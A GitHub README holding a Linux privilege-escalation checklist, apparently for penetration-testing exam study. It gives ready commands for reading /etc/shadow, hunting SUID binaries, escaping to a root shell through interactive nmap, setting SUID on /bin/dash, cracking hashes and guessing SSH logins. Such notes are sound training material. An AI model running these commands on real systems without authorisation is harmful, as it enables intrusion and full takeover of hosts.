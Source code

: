# ariel-shin Linux - Privilege Escalation 

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt/proof.txt

## Summary 
* [Process](#Process)
* [Compiling Exploits](Compiling-Exploits)
* [Cracking Passwords](#Cracking-Passwords)
* [Automated Scripts](#Automated-Scripts)
* [What to do when youre stuck](#What-to-do-when-youre-stuck)
* [Resources](#Resources)

## Process
* Reverse Shell
	* Check Different Ports, e.g. 80, 443
* Upgrade the shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
* Are we tty
```
tty
```
If not, (spawn a TTY shell)[https://github.com/Elinpf/OSCP-survival-guide#Shells]
* We have credentials
```
sudo su
```
* What's the OS? Version? 
```os
cat /etc/*-release
uname -i
lsb_release -a #Debian Based OS
uname -a
```
* Architecture
```
uname -a
uname -m //just get arch
```
	* 32 bit: i686 or i386
	* 64 bit: x86_64

* Who are we? Where are we?
```who
id 
pwd
```

* Bash History 
```
history
cat .bash_history
```
* Google anything that looks weird
* See if root is running anything that showed up in the history

* Who uses the box? What users?
```passwd
cat /etc/passwd
grep -vE "nologin | false" /etc/passwd
```

* Can we access /etc/shadow?
```
cat /etc/shadow
ls -al /etc/shadow
```

* What's currently running on the box? What active network services are there?
```ps
ps aux
netstat -antup
```

* Installed? Kernel?
```
dpkg -l #Debian based OS
rpm -qa #CentOS?openSUSE
uname -a # Kernel Exploits
```

* Sensitive Files
```config
find . -iname '*config'
```

* mysql
```mysql
mysql -uroot -ppassword -e 'show databases;' //no spaces for password
```

* See who's logged in 
```w
w
```

Display the list of all the users logged in and out since the file /var/log/wtmp was created
```last
last root 
```

* Find places to write files to
	* View File Permissions
	```
	ls -al
	```

	* If the above command doesn't work, view fstab
	```
	cat /etc/fstab
	//attempt to write to different locations in <mount point>
	echo "a" > test.txt
	```

* Check sticky bit
```
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```
	* Can also change SUID
	```
	chmod 4755 /bin/dash
	```

* Discover tools
```
find / -name wget
find / -name nc<em>
find / -name netcat</em>
find / -name tftp*
find / -name ftp
```

* Look at the original low privilege shell for notes 
* Look for interesting things e.g. nmap 
```
sudo nmap --interactive
nmap> !sh
id 
```
[Back](#summary)

## Compiling Exploits
* gcc
``` 
gcc exploit.c -o exploit
./exploit
```
* mingw32
``` 
TO DO
```
* If exploit fails, try copy and pasting it as a hidden file (e.g. .test.txt) Sometimes, it just fixes it.. 

[Back](#summary)

## Cracking Passwords
* Google it
* Search on hashkiller.co.uk
* John The Ripper
```
john textfile
```

[Back](#summary)

## Automated Scripts
* [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
* [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
```
LinEnum.sh -t
```
	* t: thorough
* [Unix-Privesc-Check](https://github.com/pentestmonkey/unix-privesc-check)
* [Linux Exploit Suggester](https://tools.kali.org/exploitation-tools/linux-exploit-suggester)

[Back](#summary)

## Resources
* [g0tmilk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Back](#summary)

## What to do when you're stuck
* [Calm down](https://www.youtube.com/watch?v=F28MGLlpP90)
* Take a breath 
* Look for usernames that could have been found
	* Try to ssh by guessing credentials
* Google anything running by root
* Do we have the right type of shell? tty? sh? bash? 

[Back](#summary)